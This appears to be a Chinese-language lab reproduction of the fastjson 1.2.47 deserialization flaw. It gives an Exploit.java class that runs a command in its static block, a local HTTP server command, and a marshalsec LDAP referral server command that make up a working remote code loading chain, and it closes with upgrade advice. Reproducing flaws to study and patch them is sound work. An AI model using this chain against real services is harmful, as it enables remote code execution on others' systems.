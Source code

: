# fastjson =< 1.2.47 反序列化漏洞复现

> HW期间爆出来一个在hw期间使用的fastjson 漏洞，该漏洞无需开启autoType即可利用成功，建议使用fastjson的用户尽快升级到> 1.2.47版本(保险起见，建议升级到最新版)

## 复现详情


### 环境
- win10
- fastjson 1.2.47
- jdk 1.8.1
- marshalsec

### 环境过程

首先先创建maven项目,下载fastjson版本为`1.2.47`
```
<dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.47</version>
        </dependency>
</dependencies>
```

创建一个`Exploit.java`文件，Java 编译一下生成  Exploit.class 文件

exploit.java内容
```
public class Exploit {

        static {
                System.err.println("Pwned");
                try {
                        String[] cmd = {"calc"};
                        java.lang.Runtime.getRuntime().exec(cmd).waitFor();
                } catch ( Exception e ) {
                        e.printStackTrace();
                }
        }
}
```


然后启动http服务，这边利用python的SimpleHTTPServer来启动。

```
python2 -m SimpleHTTPServer
```
![](./img/1.png)

再利用marshalsec转发，创建一个ldap服务器

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit"
```
![](./img/2.png)

最后编写了一个测试用例

![](./img/3.png)

运行即可触发漏洞。

![](./img/4.png)

![](./img/5.png)


## 修复意见

尽快将fastjson升级至1.2.48及以上的版本。

